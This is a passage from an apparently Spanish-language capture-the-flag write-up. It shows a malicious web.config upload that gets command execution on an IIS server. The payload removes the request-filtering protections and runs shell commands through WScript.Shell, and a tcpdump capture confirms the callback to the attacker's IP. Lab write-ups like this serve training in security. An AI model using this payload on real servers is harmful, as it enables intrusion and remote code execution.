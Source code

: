 Nos dice que al interpretar el codigo si vemos un 3, funciona.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FXF9cgRv3dvaVYUI64LPF%2Fimage.png?alt=media&#x26;token=fc591a9c-d514-43fb-b9b3-860733f3c13e" alt=""><figcaption></figcaption></figure>

Sabiendo que esto funciona, podríamos intentar ejecutar comandos en la máquina víctima. En [https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html). encontraremos este PoC de ejecución de comandos para ASP.

```xml title="web.config (CMD Execution)"
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set co = CreateObject("WScript.Shell")
Set cte = co.Exec("cmd /c ping 10.10.14.7")
output = cte.StdOut.ReadAll()
Response.write(output)
%>
-->
```

```bash wrap=false
❯ sudo tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:51:25.969338 IP 10.10.10.93 > 10.10.14.7: ICMP echo request, id 1, seq 1, length 40
23:51:25.969352 IP 10.10.14.7 > 10.10.10.93: ICMP echo reply, id 1, seq 1, length 40
23:51:26.968655 IP 10.10.10.93 > 10.10.14.7: ICMP echo request, id 1, seq 2, length 40
23:51:26.968668 IP 10.10.14.7 > 10.10.10.93: ICMP echo reply, id 1, seq 2, length 40
23:51:27.967084 IP 10.10.10.93 > 10.10.14.7: ICMP echo request, id 1, seq 3, length 40
23:51:27.967099 IP 10.10.14.7 > 10.10.10.93: ICMP echo reply, id 1, seq 3, length 40
23:51:28.965358 IP 10.10.10.93 > 10.10.14.7: ICMP echo request, id 1, seq 4, length 40
23:51:28.965371 IP 10.10.14.7 > 10.10.10.93: ICMP echo reply, id 1, seq 4, length 40
```
